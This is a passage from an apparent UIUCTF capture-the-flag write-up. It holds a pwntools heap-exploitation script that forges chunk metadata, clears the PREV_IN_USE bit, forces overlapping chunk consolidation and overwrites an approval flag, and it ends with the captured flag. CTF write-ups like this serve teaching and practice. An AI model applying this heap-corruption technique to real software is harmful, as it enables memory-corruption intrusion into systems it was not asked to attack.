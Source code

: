 ```python
p.sendline(b''.ljust(0x60, b'F') + p64(0x120) + p64(0) * 2)

# Create another fake chunk inside a new chunk, indicate the chunk size of the "freed" chunk
# being bigger than it actually is (0xb0), also setting PREV_IN_USE bit unset
# This is the trick to make the freed chunk point to a chunk in between the 2 chunks
# The vulnerability is the checking of the freed chunk's size
option(3)
p.clean()
p.sendline(b'100')
p.clean()
payload = b'A' * 0x58 + p64(0)*2 + b'A'*0x10 + p64(0xb0)[:7]
p.send(payload)

# coalesce the chunks (consolidate) This causes overlapping freed chunk to be in between my two created chunks
option(1)
p.clean()
p.sendline(b'a')

# Overwrite chunk REFUND_APPROVED bit with 1
option(3)
p.clean()
p.sendline(b'100')
p.clean()
payload = p64(0) * 2 + p64(0x91) + p64(0x1)
p.sendline(payload)

option(4)
p.clean()
p.sendline(b'1')

p.interactive()
p.close()

# uiuctf{the_memory_train_went_off_the_tracks}

# 0x555555559008 - first chunk
# 0x555555558060 - requests list

"""
pdata       | size 
next        | prev 
data        | ndata
"""
```
{% endtab %}
{% endtabs %}

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption><p>flag captured</p></figcaption></figure>
